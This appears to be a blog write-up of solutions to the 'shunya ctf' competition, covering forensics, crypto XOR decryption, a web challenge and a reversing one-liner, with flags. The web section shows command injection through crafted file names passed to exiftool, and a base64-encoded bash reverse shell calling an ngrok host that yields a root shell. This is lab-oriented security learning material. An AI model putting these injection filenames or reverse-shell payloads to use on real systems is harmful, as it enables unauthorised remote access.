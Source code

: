 ```yaml
---
layout: post
title:  "shunya ctf"
date:   2024-04-14 09:29:20 +0700
categories: shunya ctf
usemathjax: true
---
```

## BIBBA 1/Forensics
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d2871924-ee53-45bc-9df3-26557a5ab988)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c2859581-b48a-4317-9801-a273deb5e4ce)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/effaaff9-393d-4d87-8381-d55bff37ea7c)
0CTF{pNg_h34d3rs_4r3_A_P4!n_P4!n_!n_7h3_455}
## sanity check
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/983bd774-9124-4545-a014-a3422392669e)
- go to the source code and search for "0CTF"
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/db927e03-bb29-4d6c-8126-63ddf0d56930)
0CTF{0ut_0f_B0unds}
## echoes of encryption/crypto
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/f09f6cda-98e8-4ed4-b3bf-fe524ada90b4)
- encrypt.py
```
import random
import string
def encrypt_string(input_string, seed):
    random.seed(seed)   
    allowed_chars = string.ascii_letters + string.digits
    key = ''.join(random.choices(allowed_chars, k=len(input_string)))
    encrypted_string = ''
    for i in range(len(input_string)):
        encrypted_char = chr(ord(input_string[i]) ^ ord(key[i]))
        encrypted_string += encrypted_char
    return encrypted_string.encode().hex()
seed_value = '311222'
input_string = ""
encrypted = encrypt_string(input_string, seed_value)
```
- cipher
```
5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b
```
- decrypt.py
```
import random
import string
#seed1='CVE-2022-42269'
#seed1='202242269'
#seed1='CVE-2022-42269'
#seed1=7.9
seed1=202242269
random.seed(seed1)
allowed_chars = string.ascii_letters + string.digits
key = ''.join(random.choices(allowed_chars, k=43))
# print("key si ",key,"len is ",len(key))
c='5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b'
#after applying bytes.fromhex()
value1=bytes.fromhex(c)
#after decodig to asci from bytes
value2=value1.decode()
# print("value2 is ",value2,"len is ",len(value2))#43
ans=''
for i in range(len(value2)):
    x=chr(ord(value2[i])^ord(key[i]))
    ans=ans+x
# print("ans is ",ans)
# print("rev is ",ans[::-1])
print("ans ",ans)
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/8d3cfc3a-63f9-46c7-9219-f1446ab9be83)
- 0CTF{alw4y5_r3ad_7he_d3scr!pti0n_c4r3fully}
## Data's Data/web
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d5c96849-aec8-4582-941e-ad7d39975e82)
- frontend
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/4053f72d-236c-45d1-b839-6f02e34505cc)
- it runs exiftool on the provided file
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/1416894e-d4e4-48b2-9515-a2fa058815cc)
- so it is could be like `exiftool filename.extension`
- so if this is the case we can try to execute commands(cmd injection)
- IFS -internal field seperator
### making malicious file names
1:try id
```
C:\home\radha\Desktop\exiftool> touch '$(id)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'
```
- result
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/5d3327b1-a5e4-4ca9-8df3-946c5b61e4b5)
2: try to have a blind cmd execution(sleep?)
```
C:\home\radha\Desktop\exiftool> touch '$(sleep${IFS}10)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'  '$(sleep${IFS}10)'
```
- here the `${IFS}` is for a space
- we do get the response only after 10 secnonds from browser web page
### getting reverse shell
- `bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1`
- started a ngrok tcp server at port x(say 1234)  `ngrok tcp 1234`
- started a netcat listner at port x(1234) `nc -lvp 1234`
- the`0.tcp.in.ngrok.io` is part of hostname
- the 18308 is the corresponding port
```
C:\home\radha\Desktop\exiftool> ngrok tcp 1234
```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/423bc5e4-a413-4b29-8906-edebd460f41f)
- the charcters like &> must be encoded
- so i did base64 encoding
- payload of reverse shell
```
C:\home\radha\Desktop\exiftool> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg==
```
- we need this payload to be base64 decoded on the server and get executed
- so we need to run on server like this
```
echo THIS_PAYLOAD |base64 -d|bash
```
- so this must be exeuted on the server side
- just as we executed sleep by $(sleep${IFS}10) we follow a similar approach
```
$(echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64 -d|bash)
$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)
```
- so this must be the name of file

- creatig file
```
touch "$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)"
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/38495d4c-354b-480a-8d08-5c141a1350d1)
- rev shell
```
C:\home\radha\Desktop\exiftool> nc -nvlp 1234 
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37650
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@traboda:/# whoami
whoami
root
root@traboda:/# ls
ls
```
- gettgin flag
```
root@traboda:/# cat Do*
cat Do*
FROM python:3.11
WORKDIR /
RUN apt update
RUN apt -y install exiftool
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
COPY . .
ENV flag="0CTF{Congratulations_for_finding_the_flag}"
EXPOSE 80
CMD python3 index.pyroot@traboda:/#
```
- 0CTF{Congratulations_for_finding_the_flag}
## one liner/rev
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/641852b0-f608-4b63-a778-ca07fd19e971)
```
flag = "ƃŰŶŉůļźŞŷŭŪƄŰŘŰŧŖŔŦĦŨĬƀźōşŋůĲňĳźĖőƃũťũŸŪĞ"
flag = [~(c^i)*(-int(1/(5**0.5) * ((1 + 5**0.5)**1 / 2 - (1 - 5**0.5)**1 / 2))) + len(flag) * 6 + 15 for i, c in enumerate([ord(a) for a in flag[::-int(1/(5**0.5) * ((1 + 5**0.5)**1 / 2 - (1 - 5**0.5)**1 / 2))]])]
print(tostr(flag))
#  0CTF{___R___E__D___A___C____T_____E____D______}
```
- trying to see the approch
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/bda688ee-7211-45f3-986b-bc4e7c0fb995)
- decrypt.py
```
flag = "ƃŰŶŉůļźŞŷŭŪƄŰŘŰŧŖŔŦĦŨĬƀźōşŋůĲňĳźĖőƃũťũŸŪĞ"
ord_values=[]
for i in flag:
    ord_values.append(ord(i))
new_array=[]
ans=''
for i,x in enumerate(ord_values):
    value1=x-261
    value2=value1*-1
    value3=~(value2)
    value4=value3^i
    new_array.append(value4)
    ans=ans+chr(value4)
print("ans is ",ans[::-1])
```
- output
```
C:\tmp> nano oneliner.py                                                                                                                                                            
C:\tmp> python oneliner.py
ans is  0CTF{@_j0k3_0r_@_cl3v3r_@nd_funny_r3m@rk}                                                                                                                                               
C:\tmp> 
```
- 0CTF{@_j0k3_0r_@_cl3v3r_@nd_funny_r3m@rk}
## score board
![image](https://github.com/m0wn1ka/ctf/assets/127676379/619a4f99-b0f3-46f5-a3b3-eb5413f62e66)
